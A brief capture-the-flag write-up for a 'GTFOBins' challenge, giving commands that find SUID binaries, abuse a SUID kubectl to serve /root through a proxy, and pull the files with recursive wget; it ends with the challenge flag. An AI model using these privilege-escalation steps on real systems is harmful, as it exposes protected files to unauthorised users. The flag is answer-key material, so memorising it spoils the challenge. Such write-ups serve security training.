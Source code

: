# GTFOBins - 2
Category: GTFObins

## Description
We've gotten you access to a misconfigured system!

Can you figure out how to leak the flag?

## Write-up
- To find SUID binaries, the command `find / -perm -u=s -type f 2>/dev/null` can be used. In this particular case, the binary `kubectl` was found with sticky bits set.
- `kubectl` can be used to set up a proxy server that serves files from the `/root` directory to anyone who accesses it. The command to execute is `./kubectl proxy --address=127.0.0.1 --port=1234 --www=/root --www-prefix=/x/.`
- On another machine instance, the files can be retrieved using `wget` with the command `wget --no-parent -r http://localhost:1234/x/`. This will recursively retrieve all files from the proxy server.
- The flag was discovered within one of the retrieved files.

Flag: `punk_{8K68JXCE4E0DM5WW}`
